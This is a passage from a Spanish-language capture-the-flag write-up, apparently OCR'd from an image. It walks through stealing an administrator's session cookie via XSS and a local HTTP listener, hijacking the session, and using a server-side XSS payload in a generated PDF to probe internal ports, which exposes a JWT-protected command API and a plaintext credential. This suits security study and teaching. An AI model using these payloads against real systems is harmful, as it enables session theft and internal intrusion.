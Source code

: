 y listo, ya tenemos ambas cosas. Ahora simplemente ejecutamos el script de la siguiente manera:

```css
bash script.sh payload
```

escuchamos con `python3` por el puerto 5454:

```css
python3 -m http.server 5454
```

y nos registramos con el payload.

Al cabo de unos segundos, nos llegará la siguiente petición con la cookie del usuario administrador:

```css
192.168.56.115 - - [09/Mar/2025 18:16:14] "GET /c?=PHPSESSID=ambo7dh21va6bh8l92igc77fe5 HTTP/1.1" 404 -
```

ahora creamos una cuenta normal, iniciamos sesión y reemplazamos nuestra cookie por la del admin.

Una vez dentro, podemos ver que se puede generar un pdf con la lista de usuarios, y sabemos que se genera dinamicamente ya que utiliza los nombres de los usuarios para hacerlo (lo cual nosotros podemos controlar registrando uno). Viendo esto podemos aprovecharlo para muchas cosas, como hacer peticiones GET y POST para poder leer archivos internos de la máquina, o no solo para eso, si no que también para obtener el contenido de páginas y demás. Mas info: [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf.html?highlight=dynamic%20pdf#server-side-xss-dynamic-pdf-1)

Luego de probar distintos puertos con este payload (registrando el usuario y descargando el pdf):

```css
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","http://localhost:80/");x.send();</script>
```

logro encontrar el puerto 3000 abierto y veo que dice lo siguiente:

```json
{"name":"API de Comandos con JWT (CTF)","version":"1.2.0","description":"API para autenticación y ejecución de
comandos utilizando JWT. En este reto, la validación del token es vulnerable y permite modificar el parámetro \"role\"
para obtener acceso a /command (solo para rol admin).","endpoints":{"/":{"method":"GET","description":"Muestra la
información de la API y la descripción de los endpoints disponibles."},"/login":{"method":"POST","description":"Permite
iniciar sesión. Se espera un body en formato JSON con 'username' y 'password'. Si el login es correcto, se retorna un
token JWT. Ejemplo: { \"username\": \"jose\", \"password\": \"FuLqqEAErWQsmTQQQhsb\" }"},"/command":
{"method":"POST","description":"Ejecuta un comando del sistema para usuarios autenticados con rol admin. Se espera
un body en formato JSON con 'command' y 'token' o enviando el token en la cabecera 'Authorization'. Ejemplo: {
\"command\": \"ls -la\", \"token\": \"token_jwt\" }"}}}
```
